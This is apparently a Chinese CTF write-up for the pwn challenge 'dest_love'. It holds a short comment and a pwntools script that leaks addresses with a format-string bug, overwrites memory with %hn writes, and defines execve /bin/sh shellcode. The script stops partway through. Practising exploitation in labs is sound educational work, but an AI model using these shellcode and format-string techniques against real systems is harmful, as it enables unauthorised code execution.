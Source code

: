 ## dest_love

![image-20220711182331514](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711182331514.png)

一个循环的bss段上字符串，存在后门

![image-20220711182438689](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711182438689.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process("./pwn")
# p=remote("node4.buuoj.cn","28979")
elf = ELF("./pwn")
# libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
shell = 1314520
tag = 0x4010 

sla("What about your love to Dest0g3?",'%10$p%12$p')
p.recvuntil("0x")
stack = int(p.recv(12),16)
lg('stack',stack)

p.recvuntil("0x")
base = int(p.recv(12),16)-0x1185
lg('base',base)
tag = base+tag
lg('tag',tag)

stack2 = stack-0xd8
pay = '%{}c%{}$hnxxxx'.format(stack2&0xffff,10)

sla("What about your love to Dest0g3?",pay)

pay = '%{}c%{}$hnxxxx'.format(tag&0xffff,39)
ru('xxx')
sla("What about your love to Dest0g3?",pay)

pay = '%{}c%{}$hnxxxx'.format(shell&0xffff,12)
# ru('xxx')
```